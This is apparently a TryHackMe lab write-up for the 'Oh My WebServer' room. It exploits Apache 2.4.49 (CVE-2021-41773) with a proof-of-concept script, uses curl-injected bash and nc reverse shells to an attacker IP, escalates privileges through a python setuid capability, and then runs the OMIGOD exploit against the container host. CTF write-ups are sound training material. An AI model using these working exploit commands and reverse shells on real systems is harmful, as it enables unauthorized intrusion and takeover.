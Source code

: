 ```yaml
---
layout: post
title:  "Oh My WebServer"
categories: [tryhackme]
tags: [linux,omigod,container,capabilities,cve]
---
```


You can find this machine here : `https://tryhackme.com/room/ohmyweb`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn -sV ohmyweb.thm

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$  dirb http://ohmyweb.thm/

URL_BASE: http://ohmyweb.thm/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://ohmyweb.thm/ ----
==> DIRECTORY: http://ohmyweb.thm/
+ http://ohmyweb.thm/cgi-bin/ (CODE:403|SIZE:199
```

### Wappalyzer - Port 80

![image]( /assets/img/ohmy/0.PNG)

### Searching


Search : `Apache httpd 2.4.49 exploit`
Result : `https://www.exploit-db.com/exploits/50383`

### Apache HTTP Server 2.4.49 - Path Traversal & RCE

CVE : `CVE-2021-41773`

```bash
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done
```

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ ./ohmyweb.sh targets.txt /bin/sh "whoami;id"
ohmyweb.thm
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

![image]( /assets/img/ohmy/1.PNG)

#### Reverse Shell Creation

Source : `https://www.youtube.com/watch?v=WSVcuV2Wc58`

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "#!/bin/bash" > /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.18.45.56/4444 0>&1" >> /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; cat /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; bash /tmp/alienum.sh'
```

![image]( /assets/img/ohmy/2.PNG)

#### Better Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo;fg
ENTER
export TERM=xterm
export HOME=/home
```

### LinPeas 

![image]( /assets/img/ohmy/4.PNG)

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

#### Linux Capabilities - Privileges Escalation 

```bash
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:~$
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### User Owned - Proof

![image]( /assets/img/ohmy/5.gif)


### Found IP

![image]( /assets/img/ohmy/8.PNG)


### Host Discovery

- awk

```bash
awk \'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}\' /proc/net/tcp 
```

![image]( /assets/img/ohmy/13.PNG)

- arp

```bash
root@4a70924bafa0:~# arp -a
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:1e:60:bf:4a [ether] on eth0
```

![image]( /assets/img/ohmy/14.PNG)


### Port Scan

Binary here : `https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap`

```bash
curl 10.18.45.56/nmap -o nmap
```

![image]( /assets/img/ohmy/15.PNG)

- Starting the Scan

```bash
root@4a70924bafa0:~# ./nmap 172.17.0.1 -p- --min-rate 4000

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

![image]( /assets/img/ohmy/16.PNG)

### Identify The Service (Port 5986)

![image]( /assets/img/ohmy/17.PNG)

![image]( /assets/img/ohmy/18.PNG)

### OMIGOD Unauthenticated RCE

- Source : `https://github.com/AlteredSecurity/CVE-2021-38647`
- Source : `https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure/`

```bash
wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
python3 -m http.server 80
```

```bash
curl 10.18.45.56/CVE-2021-38647.py -o exploit.py
```

![image]( /assets/img/ohmy/19.PNG)

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'id'
```

![image]( /assets/img/ohmy/20.PNG)

### Reverse Shell - Root Owned

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.18.45.56 6666 >/tmp/f'
```

![image]( /assets/img/ohmy/21.PNG)